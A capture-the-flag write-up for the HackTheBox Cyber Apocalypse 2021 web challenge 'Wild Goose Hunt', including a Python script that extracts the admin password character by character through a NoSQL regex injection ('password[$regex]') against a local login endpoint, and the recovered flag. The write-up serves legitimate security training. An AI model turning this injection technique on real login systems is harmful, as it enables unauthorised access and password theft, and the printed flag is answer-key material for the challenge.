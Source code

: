 ```yaml
---
name: Wild Goose Hunt (2021)
event: HackTheBox Cyber Apocalypse CTF 2021
category: Web
description: Writeup for Wild Goose Hunt (Web) - HackTheBox Cyber Apocalypse CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Wild Goose Hunt

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/vqR4i730soY/0.jpg)](https://youtu.be/vqR4i730soY?t=1680s "HTB Cyber Apocalypse CTF 2021: Wild Goose Hunt")

## Challenge Description

> Outdated Alien technology has been found by the human resistance. The system might contain sensitive information that could be of use to us. Our experts are trying to find a way into the system. Can you help?

## Solution

{% code overflow="wrap" %}
```py
import requests
import string

flag = "CHTB{"
url = "http://127.0.0.1:1337/api/login"

# Each time a successful login is seen, restart loop
restart = True

while restart:
    restart = False
    # Characters like *, ., &, and + has to be avoided because we use regex
    for i in "_" + string.ascii_lowercase + string.digits + "!#$%^()@{}":
        payload = flag + i
        post_data = {'username': 'admin', 'password[$regex]': payload + ".*"}
        r = requests.post(url, data=post_data, allow_redirects=False)
        # Correct char results in "successful password"
        if 'Successful' in r.text:
            print(payload)
            restart = True
            flag = payload
            # Exit if "}" gives a valid redirect
            if i == "}":
                print("\nFlag: " + flag)
                exit(0)
            break
```
{% endcode %}

Flag: `CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f0r3}`
